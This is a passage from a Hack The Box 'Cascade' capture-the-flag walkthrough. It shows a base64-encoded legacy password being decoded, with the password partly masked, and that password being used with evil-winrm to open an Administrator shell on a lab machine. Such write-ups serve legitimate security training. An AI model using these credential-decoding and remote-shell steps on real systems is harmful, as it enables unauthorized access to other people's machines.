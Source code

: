 Another `cascadeLegacyPwd` value... let's decode.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ echo 'YmFDVDNy*******kbGVz' | base64 -d
baCT*******dles
```

### Shell as Administrator

Let's use our new credentials and see if they work for the Administrator account. The email we read during SMB enumeration before seems to indicate they will.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ evil-winrm -i 10.129.145.225 -u administrator -p 'baCT*******dles'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Grab that `root.txt` and be done!